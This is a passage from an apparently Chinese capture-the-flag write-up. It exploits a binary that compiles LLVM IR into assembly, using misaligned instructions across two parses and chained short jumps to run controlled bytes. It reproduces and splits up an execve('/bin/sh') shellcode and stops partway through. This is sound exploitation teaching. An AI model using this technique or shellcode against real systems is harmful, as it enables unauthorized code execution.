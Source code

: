 由此可见，我们可以执行这一段指令。但是这里的指令只能是有限的几种，并不能达到我们的目的。不过别忘了我们第4步分析handle函数时注意到的一个小细节：当生成的汇编指令长度大于0xFF0时，handle函数不会再继续向下解析.ll代码，而是会直接退出。但很明显我们完全有可能让handle函数生成的汇编指令长度比0xFF0大几个字节，即让最后一条指令越过0xFF0的边界。注意其依然会执行。而且**mmap出来的空间没有被释放**，这说明当handle函数解析第二个函数的时候，我们之前解析得到的指令还保留在mmap空间中。如果两次解析出来的指令有错位，就可能会产生新的指令。

如第一次解析的指令为：
```
movabs rax, 0	; 0x0
movabs rax, 0x12345678	; 0xA
mov rbx, rax	; 0x14
movabs rax, 0x87654321	; 0x1E
```

第二次解析的指令为：
```
movabs rax, 0	; 0x0
movabs rax, 0x12345678	; 0xA
mov rbx, rax	; 0x14
mov rbx, rax	; 0x17
```
那么对于0x1A~0x1E这5个字节，如果有实际含义的话，很可能会被当成汇编指令执行，而这5个字节在第一次解析中是作为立即数存在，是可以被我们随意控制的。由此我们就可以执行一条长度不大于5字节的任意指令。不过需要注意的是，如果我们写的汇编指令长度不足0xFF0字节，在循环中会写入一个ret指令进去，跳出循环的条件就是汇编指令长度大于0xFF0，因此要想循环中添加ret指令的这个函数不调用，就必须要使得写入的汇编指令长度大于0xFF0字节，这样才能够执行0xFF0后面几个字节的任意代码。

通过测试我们可以发现，inc指令占用3字节，mov rax, rbx指令占用3字节，向rax或rbx直接赋值占用10字节。由于3和10的最大公因数为1，因此我们可以构造任意长度在0xFF0左右的汇编代码。但是很明显，不可能有shellcode能够用仅仅几个字节就getshell。考虑到我们可以控制movabs指令中的后8字节，可以将shellcode写到这一个个的8字节之中，再通过短转移指令将它们连接在一起，就有可能执行一个完整的shellcode。**注意：短转移指令的长度为2字节，因此每一个8字节中的指令不能超过6字节。因此现有的shellcode可能无法直接使用，需要我们根据实际的调试结果进行一定的调整。**

为了shellcode编写的方便，我们将movabs指令作为我们写入的主要指令。通过前面的调试结果可以得知，绝大多数的movabs指令后面都回跟上一个add rax, rbx指令。我们人为规定每一个movabs中写入一条指令，然后通过短转移指令跳到前面一个movabs中的指令。

下面，我们就来构造我们预期要执行的shellcode。

## Step 6: 构造shellcode
我们直接使用pwntools中给出的模板，在其基础上进行修改。
```asm
    /* execve(path='/bin///sh', argv=['sh'], envp=0) */
    /* push b'/bin///sh\x00' */
    push 0x68
    mov rax, 0x732f2f2f6e69622f
    push rax
    mov rdi, rsp
    /* push argument array ['sh\x00'] */
    /* push b'sh\x00' */
    push 0x1010101 ^ 0x6873
    xor dword ptr [rsp], 0x1010101
    xor esi, esi /* 0 */
    push rsi /* null terminate */
    push 8
    pop rsi
    add rsi, rsp
    push rsi /* 'sh\x00' */
    mov rsi, rsp
    xor edx, edx /* 0 */
    /* call execve() */
    push SYS_execve /* 0x3b */
    pop rax
    syscall
```
1. ``push 0x68``：机器码``jh``，占用2字节。
2. ``mov rax, 0x732f2f2f6e69622f``：占用10字节，进行改写：
	(1) ``mov eax, 0x732f2f2f``：机器码``\xb8///s``，占用5字节。
	(2) ``shl rax, 32``：机器码``H\xc1\xe0<space>``，占用4字节（\<space\>指空格）。
	(3) ``add rax, 0x6e69622f``：机器码``H\x05/bin``，占用6字节。
3. ``push rax``：机器码``P``，占用1字节。
4. ``mov rdi, rsp``：机器码``H\x89\xe7``，占用3字节。